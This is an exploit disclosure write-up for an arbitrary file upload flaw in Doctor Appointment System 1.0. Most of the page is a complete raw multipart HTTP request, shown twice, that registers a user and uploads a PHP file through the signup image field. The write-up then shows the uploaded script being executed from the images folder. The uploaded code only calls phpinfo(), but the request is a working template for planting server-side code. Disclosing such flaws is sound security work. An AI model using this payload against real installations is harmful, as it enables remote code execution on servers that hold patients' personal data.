 
# Doctor Appointment System 1.0 - Arbitrary File Upload
#### Exploit Title: Doctor Appointment System 1.0 - Arbitrary File Upload  
#### Version：Doctor Appointment System 1.0
#### Google Dork: N/A
#### Date: 26/08/2022
#### Tested on：Apache2.4.39，Mysql5.7.26，PHP5.5.9
#### Software Link: https://github.com/divScorp/Doctor-Appointment

#### Description：Doctor Appointment System contain arbitrary file upload.Registered user can upload info.php files in attachments section with use of intercept tool in Burp Suite to edit the raw.
  
<br />

#### Payload used:
```
POST /Doctor-Appointment/Frontend/signup_com.php HTTP/1.1
Host: 127.0.0.1
Content-Length: 1075
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://127.0.0.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryMUqg4D3CexmmK7hZ
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.99 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1/Doctor-Appointment/Frontend/signup.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=ebk63v668nqcrjjvss2a251i2t
Connection: close

------WebKitFormBoundaryMUqg4D3CexmmK7hZ
Content-Disposition: form-data; name="pname"

w
------WebKitFormBoundaryMUqg4D3CexmmK7hZ
Content-Disposition: form-data; name="email"

w@local.net
------WebKitFormBoundaryMUqg4D3CexmmK7hZ
Content-Disposition: form-data; name="pass"

w
------WebKitFormBoundaryMUqg4D3CexmmK7hZ
Content-Disposition: form-data; name="repass"

w
------WebKitFormBoundaryMUqg4D3CexmmK7hZ
Content-Disposition: form-data; name="age"

1
------WebKitFormBoundaryMUqg4D3CexmmK7hZ
Content-Disposition: form-data; name="phone"

1231231231
------WebKitFormBoundaryMUqg4D3CexmmK7hZ
Content-Disposition: form-data; name="gender"

M
------WebKitFormBoundaryMUqg4D3CexmmK7hZ
Content-Disposition: form-data; name="add"

w
------WebKitFormBoundaryMUqg4D3CexmmK7hZ
Content-Disposition: form-data; name="image"; filename="info.php"
Content-Type: application/octet-stream

<?php phpinfo();?>
------WebKitFormBoundaryMUqg4D3CexmmK7hZ
Content-Disposition: form-data; name="button"

Sign Up
------WebKitFormBoundaryMUqg4D3CexmmK7hZ--
```

<br />

#### Example：

1.User registration

http://127.0.0.1/Doctor-Appointment/Frontend/signup.php

![1.png](./1.PNG)

2.Send Payload
```
POST /Doctor-Appointment/Frontend/signup_com.php HTTP/1.1
Host: 127.0.0.1
Content-Length: 1075
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://127.0.0.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryMUqg4D3CexmmK7hZ
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.99 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1/Doctor-Appointment/Frontend/signup.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=ebk63v668nqcrjjvss2a251i2t
Connection: close

------WebKitFormBoundaryMUqg4D3CexmmK7hZ
Content-Disposition: form-data; name="pname"

w
------WebKitFormBoundaryMUqg4D3CexmmK7hZ
Content-Disposition: form-data; name="email"

w@local.net
------WebKitFormBoundaryMUqg4D3CexmmK7hZ
Content-Disposition: form-data; name="pass"

w
------WebKitFormBoundaryMUqg4D3CexmmK7hZ
Content-Disposition: form-data; name="repass"

w
------WebKitFormBoundaryMUqg4D3CexmmK7hZ
Content-Disposition: form-data; name="age"

1
------WebKitFormBoundaryMUqg4D3CexmmK7hZ
Content-Disposition: form-data; name="phone"

1231231231
------WebKitFormBoundaryMUqg4D3CexmmK7hZ
Content-Disposition: form-data; name="gender"

M
------WebKitFormBoundaryMUqg4D3CexmmK7hZ
Content-Disposition: form-data; name="add"

w
------WebKitFormBoundaryMUqg4D3CexmmK7hZ
Content-Disposition: form-data; name="image"; filename="info.php"
Content-Type: application/octet-stream

<?php phpinfo();?>
------WebKitFormBoundaryMUqg4D3CexmmK7hZ
Content-Disposition: form-data; name="button"

Sign Up
------WebKitFormBoundaryMUqg4D3CexmmK7hZ--
```
<br />
3.Successfully executed phpinfo()

http://127.0.0.1/Doctor-Appointment/Frontend/imge/info.php

![2.png](./2.PNG)

















